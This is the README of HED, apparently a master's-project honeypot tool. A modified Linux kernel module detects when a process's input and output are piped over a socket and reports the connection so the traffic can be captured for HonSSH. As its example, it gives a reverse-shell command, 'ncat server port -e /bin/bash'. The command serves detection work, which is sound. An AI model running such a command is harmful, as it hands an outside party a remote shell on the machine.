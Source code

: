 # HED

<p align="center">
	<img alt="Logo" src="./doc/HEDLogo.png" height="220" width="220">
 </p>

HED is a tool developed for detecting when an "engage" is performed. What is an engage? Well... we are refer as "engage" to the procedure of multiplexing the input & output of a child process through a socket. For example: if you execute the following command:

	ncat server port -e /bin/bash

An engage to the server:port executing an instance of *BASH* is performed.

HED needs another party, contained inside the directory *Handler*, who receives the information related to the engage (i.e. IP Address & TCP Port) so it captures the traffic of this stream.

This is useful in certain environments. Our motivation is to enhance the functionality of the software *HonSSH*:

	https://github.com/tnich/honssh

All this project is part of a project of a master, implementing a Honeypot; I am opened to questions and suggestions.
It is important to note that it is necessary to modify the Linux kernel before adding the kernel module... This is not very flexible... maybe I will implement a new version "ALL-IN-ONE" in a future.

The modified files are the following:

	sched.h
	fork.c
	exit.c

The base Linux kernel version we have used is 4.1.18; but it can work in a large number of versions.

Fernando Vañó
